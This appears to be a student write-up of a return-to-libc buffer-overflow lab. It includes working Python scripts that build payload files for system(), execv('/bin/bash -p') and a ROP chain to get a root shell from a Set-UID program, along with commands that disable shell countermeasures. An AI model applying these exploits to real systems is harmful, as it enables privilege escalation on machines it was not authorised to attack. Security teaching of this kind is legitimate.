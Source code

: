 # Return to libc

## Task 1: Finding out the Addresses of libc Functions

First we turn off the countermeasures, except for the non-executable stack, and link /bin/sh to zsh:
> sudo ln -sf /bin/zsh /bin/sh

Then we retrive the address of *system()* and the address of *exit()* in the memory using gdb.

## Task 2: Putting the shell string in the memory

To achive our goal the string “/bin/sh” must be put in the memory and we have to know its address.
And then this address needs to be passed to the *system()* function.

Using the approach of the environment variable we set:
> export MYSHELL=/bin/sh

And get its address with the following program that needs to be compiled in 32bit binary:

```c
void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

## Task 3: Launching the attack

With the help of cyclic, a tool from pwntools, we can find the correct amount of padding we need to insert. Then, we construct the payload as following: `padding + system_address + exit_address + parameter(/bin/sh address)`.
In this way the program will return to the system function with the parameter /bin/sh and will also gently exit without errors (as the address of *exit()* function is set as return address for *system()*).

The exploit will be the following:

```py
#!/usr/bin/env python3
import sys

content = bytearray(0xaa for i in range(300))

X = 36
sh_addr = 0xffffd44c       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf7e12420   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

with open("badfile", "wb") as f:
  f.write(content)
```

The result is the following:

![Results](retlibc.png)

If we dont't insert the right address of *exit()* we are able to obtain the root shell anyway but at the moment of leaving that shell we will encounter a *Segmentation fault* error.

If we change the name from *retlib* to *newretlib* the attack will not succeed anymore and it will output the error:"zsh:1: command not found: h". The shift of three chars in the file name is reflected in the starting reading position of the env variable.

## Task 4 (Optional): Defeat Shell’s countermeasure

Some shell programs, such as *dash* and *bash*, have a countermeasure that automatically drops privileges when they are executed in a Set-UID process. We want to defeat such a countermeasure in this task. Let us first change the symbolic link back:
> sudo ln -sf /bin/dash /bin/sh

Although dash and bash both drop the Set-UID privilege, they will not do that if they are invoked with the -p option. So we will use *execv()* instead of *system()* to directly execute `/bin/bash -p`.

```c
int execv(const char \*pathname, char \*const argv[]);
```

For instance, if we want to invoke “/bin/bash -p” using execv, we need to set up the following:

```py
pathname = address of "/bin/bash"
argv[0] = address of "/bin/bash"
argv[1] = address of "-p"
argv[2] = NULL (i.e., 4 bytes of zero)

# which in our case, in the stack is:
____________________________________
execv() address
____________________________________
exit() address
____________________________________
param1 - address to the command
____________________________________
param2 - address of argv 
____________________________________
/bin/sh0
____________________________________
-p00
____________________________________
argv[0] <- memory address of /bin/sh
____________________________________
argv[1] <- memory address of -p
____________________________________
argv[2] <- 0000
____________________________________
```

So we can build the *badfile* with the following script:

```py
#!/usr/bin/env python3
import sys

content = bytearray(0xaa for i in range(300))
arr = 44
buf_addr = 0xffffcde0 # address of input buffer

Y = 28
execv_addr = 0xf7e994b0   # address of execv()
content[Y:Y+4] = (execv_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

X = 36
p_addr = buf_addr + arr    # pathname i.e. address to the command
content[X:X+4] = (p_addr).to_bytes(4,byteorder='little')

# Put the values in the stack
content[arr:arr+8] = bytearray(b'/bin/sh\x00')
content[arr+8:arr+12] = bytearray(b'-p\x00\x00')

A = 40
argv_addr = buf_addr + arr + 12 # address of the argument array
content[A:A+4] = (argv_addr).to_bytes(4, byteorder='little')

# Construct the addresses
content[arr+12:arr+16] = (buf_addr + arr).to_bytes(4, byteorder='little')
content[arr+16:arr+20] = (buf_addr + arr + 8).to_bytes(4,byteorder='little')
content[arr+20:arr+24] = bytearray(b'\x00' *4)

with open("badfile", "wb") as f:
  f.write(content)
```

## Task 5 (Optional): Return-Oriented Programming

This task can be solved with the following script:

```py
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

pos = 28

for i in range(0,10):
    system_addr = 0x565562b0   # address of foo()
    content[pos:pos+4] = (system_addr).to_bytes(4,byteorder='little')
    pos = pos + 4

sys_addr = 0xf7e12420 # address of system()
content[pos:pos+4] = (sys_addr).to_bytes(4, byteorder='little')

exit_addr = 0xf7e04f80  # address of exit()
content[pos+4:pos+8] = (exit_addr).to_bytes(4,byteorder='little')

sh_addr = 0xffffd447    # address of "/bin/sh"
content[pos+8:pos+12] = (sh_addr).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
